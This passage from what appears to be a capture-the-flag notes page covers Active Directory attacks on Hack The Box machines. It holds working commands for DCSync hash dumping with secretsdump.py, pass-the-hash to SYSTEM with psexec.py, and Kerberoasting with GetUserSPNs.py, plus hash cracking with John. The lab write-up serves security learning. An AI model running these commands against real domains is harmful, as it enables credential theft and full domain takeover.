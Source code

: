 <figure><img src="../.gitbook/assets/Capture.PNG" alt=""><figcaption><p>GetChanges in BloodHound</p></figcaption></figure>

* Also be sure to look in “Dangerous Rights” within BloodHound.
* HTB Example: _**Forest/Sizzle**_

```python
secretsdump.py egotistical-bank/svc_loanmgr@<IP> -just-dc-user Administrator

# Obtain Administrator hash

psexec.py egotistical-bank.local/administrator<IP> -hashes <admin_hash_here>

C:\\Windows\\system32> whoami

nt authority\\system
```

## Kerberoasting vs. AS-REPRoasting

*   <mark style="color:red;">Kerberoasting</mark> means that <mark style="background-color:yellow;">a user has a Service Principal Name (SPN) associated with it</mark>. We can then theoretically request the SPN from the DC to send us the hash for us to crack. This can be accomplished with the script below.

    * Check if the user has a SPN with the following command:

    ```python
    Get-UserSPNs.py -request -dc-ip <IP> search.htb/hope.sharp:IsolationIsKey

    # The SPN will appear as RESEARCH/web_svc.search.htb:60001
    # You will also get a hash, save it and crack with John

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
    ```
*   <mark style="color:red;">AS-REPRoasting</mark> means that <mark style="background-color:yellow;">Kerberos Pre-Authentication is disabled on that user</mark>. You will also receive a TGT hash that can then be cracked. This can be accomplished with the script below.
